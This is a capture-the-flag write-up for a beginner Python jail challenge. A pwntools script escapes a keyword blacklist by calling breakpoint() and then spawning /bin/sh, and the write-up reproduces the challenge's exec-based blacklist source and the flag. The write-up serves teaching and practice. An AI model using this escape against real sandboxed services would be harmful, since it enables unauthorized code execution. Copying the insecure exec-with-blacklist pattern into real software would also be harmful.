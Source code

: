# Baby's First Pyjail 
![challenge](challenge.png)
### Challenge:
##### @windex told me that jails should be sourceless. So no source for you.  
##### Author: SteakEnthusiast

##### Links: ```nc 35.226.249.45 5000```

### Solution:

Simple introductory challenge to pyjails, there were many solutions possible.
I opted to use a simple payload which bypassed the blacklist and gave me a shell:

```py
from pwn import *

r = remote("35.226.249.45", 5000)

r.sendline(b"breakpoint()")
r.recvuntil(b"Pdb")
r.sendline(b"import os; os.system('/bin/sh')")

r.interactive()
#uoftctf{you_got_out_of_jail_free}
```

This is the dumped challenge file from the shell if curious:
```py
blacklist = ["import", "exec", "eval", "os","open","read","system","module","write", "."]

while True:
    print(">>>", end=" ")
    try:
        cmd = input()
        for i in blacklist:
            if i in cmd:
                raise Exception("try harder")
        exec(cmd)
    except Exception as e:
        print(e)
```

Flag: ```uoftctf{you_got_out_of_jail_free}```
